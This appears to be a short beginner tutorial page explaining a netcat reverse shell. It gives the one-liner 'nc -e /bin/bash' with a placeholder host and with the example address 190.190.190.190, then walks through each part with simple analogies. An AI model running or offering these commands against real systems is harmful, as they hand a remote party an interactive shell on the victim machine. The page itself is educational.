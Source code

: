 # Reverse Shell

```
nc -e /bin/bash IP_ADDRESS PORT_NUMBER
nc -e /bin/bash 190.190.190.190 1234
```

1. `nc`: This is a command called "netcat." It's like a messenger that helps computers talk to each other over a network.

2. `-e /bin/bash`: These are options or flags for netcat, and they provide special instructions. Let's break them down:
   1. `-e`: This option means "execute." It's like saying, "Hey netcat, after you connect, execute the following command."
   2. `/bin/bash`: This is the command that netcat will execute. In simple terms, it's like saying, "Start a new conversation using the 'bash' program, which is like a language that computers understand."

3. `190.190.190.190`: This is an IP address, like the home address of the computer we want to talk to. It's like saying, "I want to talk to the computer living at this address."

4. `1234`: This is the port number, and it's like the door number where netcat will try to connect. It's like saying, "Lets knock on the door with number 1234 and start our converstaion."

## So, if we put it all together:

The command `nc -e /bin/bash 190.190.190.190 1234` is like saying, "Hey netcat, go to the computer at the address 190.190.190.190, knock on the door with the number 1234, and when they answer, start a conversation using the 'bash' language."

In a more real-world scenario, this command might be used for a purpose called a reverse shell, where one computer connects back to another to establish a conversation. Always remember to use such commands responsibly and with proper authorization!
